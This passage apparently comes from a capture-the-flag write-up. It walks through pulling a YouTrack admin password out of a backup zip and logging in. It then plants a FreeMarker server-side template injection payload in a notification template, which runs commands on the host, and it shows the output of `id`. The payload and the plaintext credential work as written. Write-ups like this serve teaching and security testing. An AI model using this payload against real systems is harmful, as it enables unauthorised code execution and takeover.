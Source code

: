 if [ $? -eq 0 ]; then
    echo "$(date "+%D|%T") [+] Data copied from dev machine" >> /var/log/backup.log

    name=youtrack-$(date +%s).zip
    zip -r $name youtrack
    if [ $? -eq 0 ]; then
        echo "$(date "+%D|%T") [+] Data from dev zipped (size:$(stat -c %s $name))" >> /var/log/backup.log
    else
        echo "$(date "+%D|%T") [!] Failed to zip data from dev" >> /var/log/backup.log
        exit 1
    fi
else
    echo "$(date "+%D|%T") [!] Failed to fetch data from dev machine" >> /var/log/backup.log
    exit 1
fi

rm -rf youtrack
```

It should be executed with cron job periodically, to use scp as Dave to copy data of YouTrack in the dev machine to this backup machine and create the zip files

After doing some googling, I found that the data/ directory should contains credentials for YouTrack

So I decompressed the oldest zip file, and found the password for admin :

```
conf/youtrack/service-config.properties:bundle.root-password=Th1sIsAV3ryS3cur3Adm1nP4ssw0rd0101#
```

Then we can go back to the dev machine and try to login YouTrack with this :
```
admin:Th1sIsAV3ryS3cur3Adm1nP4ssw0rd0101#
```

It worked, and now we have access to the "Notification Templates" feature :

http://10.99.190.3:8080/admin/notificationTemplates

First, we will select the issue to preview :

![](https://i.imgur.com/GmbIcMC.png)

Then enter one of the templates, and overwrite it with a SSTI payload :

![](https://i.imgur.com/MK2R544.png)

We can see that it's vulnerable to SSTI, so we can try to get RCE, we can just follow the guide by synacktiv

We can use this payload to execute `id` :

```
<#assign classloader=article.class.protectionDomain.classLoader><#assign owc=classloader.loadClass(\"freemarker.template.ObjectWrapper\")><#assign dwf=owc.getField(\"DEFAULT_WRAPPER\").get(null)><#assign ec=classloader.loadClass(\"freemarker.template.utility.Execute\")>${dwf.newInstance(ec,null)(\"id\")}
```

Then in the response we can see the output of it :
```
{"issueId":"ST-5","output":"uid=1000(dave) gid=1000(dave) groups=1000(dave)\n","error":null,"$type":"NotificationPreview"}
```

```